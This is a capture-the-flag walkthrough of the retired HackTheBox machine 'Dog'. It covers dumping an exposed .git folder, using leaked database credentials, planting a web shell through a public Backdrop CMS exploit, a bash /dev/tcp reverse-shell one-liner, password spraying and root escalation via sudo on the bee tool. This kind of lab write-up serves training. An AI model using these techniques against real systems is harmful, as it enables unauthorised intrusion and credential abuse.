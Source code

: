 ```yaml
---
title: Dog
categories: [HackTheBox]
tags: [cve, codereview]
media_subpath: /images/hackthebox_dog/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png'
---
```


# Summary 
Dog is a retired easy HackTheBox machine that involves exploiting a vulnerable version of Backdrop CMS to gain initial access by reading an exposed `.git` folder, enumerating valid username and password for the administration page and exploiting a vulnerability from the running version of the CMS, followed by privilege escalation through a backdrop CMS cli utilitary, called `bee`.

# Walkthrough

## Nmap
```bash
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan we have an indication that the target is running an Ubuntu server with SSH and HTTP services open.


## 80 - Web Server
### Enumeration

By first accessing the web server, we can see a simple page with a dog image and a link to a login page.

![NON](file-20250711125430776.png)

Looking at the bottom of the page, we can see that the web server is running with the `Backdrop CMS`, which is an open-source content management system (CMS) designed for small to medium-sized websites.

![NON](file-20250711135239693.png)

Since it is an open-source CMS, we can search for the files present in the web server. Looking at the source code of the page, we can see that there is a `robots.txt` file, `LICENSE` and `README.md` files.

![NON](file-20250711125904971.png)

![NON](file-20250711125913714.png)
There was not much information on those files, so I started with the `dirsearch` tool to enumerate the directories and files present in the web server.

```bash
dirsearch -u http://10.10.11.58
```

![NON](file-20250711130003853.png)

There was an exposed `.git` folder, which we can use to reconstruct the source code of the web server, look at previous commits, and find sensitive information.

To dump the contents of the `.git` folder, we can use the `git-dumper` tool.

```bash
git-dumper http://10.10.11.58 src
```

And now we have the source code of the web server in the `src` folder.
![NON](file-20250711130247742.png)

### Finding sensitive information
Looking at the `settings.php` file, we can see that the web server is using a MySQL database alongside with the `root` credentials of the database.

![NON](file-20250711130311632.png)

There was also a folder made of random characters, which would not be caught by the `dirsearch` tool.

![NON](file-20250711130445924.png)

There are 6133 files on that folder, and it is not possible to look at all of them manually. So we can use the `grep` command to search for interesting strings in those files.

#### Finding valid username
We start by searching for references to the `dog` word, which is the name of the target machine, which gave us a possible username.

![NON](file-20250711130618738.png)

Trying to login with that username and the password we found in the `settings.php` file, we can successfully login into the web server.

![NON](file-20250711130953412.png)


Looking at the `status report` page, we found the current version of the `CMS` running at the target, being `1.27.1`

![NON](file-20250711140355258.png)

Looking at public exploites for that specific version, we can find an [authenticated remote command execution vulnerability](https://www.exploit-db.com/exploits/52021), which allows us to execute arbitrary commands on the target machine.

### Exploiting the vulnerability
By running the exploit, it creates a `shell.zip` file, which we can use to install a custom module on the server and from there we can execute arbitrary commands.

![NON](file-20250711131725453.png)

![NON](file-20250711131704830.png)

By sending the `zip` file created by the exploit, we received an error message indicating that `zip` files are not allowed to be uploaded, it only allows `tar, tgz, gz and bz2` files.


```bash
tar -czvf shell.tar.gz shell/*
```


![NON](file-20250711140715542.png)

So instead of using the `zip` file, we created the `tar.gz` file with the same contents, which is the `shell.zip` file.

After that, we try accessing the `shell` module, which is located at `modules/shell/shell.php`, and we have a simple web shell that allows us to execute commands on the target machine.

![NON](file-20250711131847934.png)

## Foothold
We sen our reverse shell payload `bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'`, and got access to the target machine.

![NON](file-20250711131944291.png)

### Lateral Privilege Escalation
Looking at the `/etc/passwd` file, we can see that the following users are present on the target machine:

```bash
cat /etc/passwd | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Trying a password spray with the password we found in the `settings.php` file, we can successfully login into the `johncusack` user.

![NON](file-20250711133333620.png)

## Privilege Escalation
Looking at the `sudo` permissions of the `johncusack` with `sudo -l`, we can see that the user can run the `bee` binary as root without a password.
![NON](file-20250711133356334.png)

Bee is a command-line tool utility for the Backdrop CMS, we can see its [documentation here](https://github.com/backdrop-contrib/bee).

Looking at the help section of the `Bee` binary, we can see that it can run arbitrary php code, making it possible to escalate privileges to root.

![NON](file-20250711133501856.png)
Trying to execute the command with the `eval` flag, we receive an error message "The required bootstrap level for `eval` is not ready."


![NON](file-20250711133540530.png)

Looking at the help, we see it is trying to use the `--root` flag at our current working directory, which is not a valid Backdrop CMS root directory. So we can use the `--root` flag to specify the root directory of the Backdrop CMS, which is `/var/www/html`, or run the command from that directory, granting us `root` command execution.

![NON](file-20250711141853268.png)

![NON](file-20250711133846290.png)
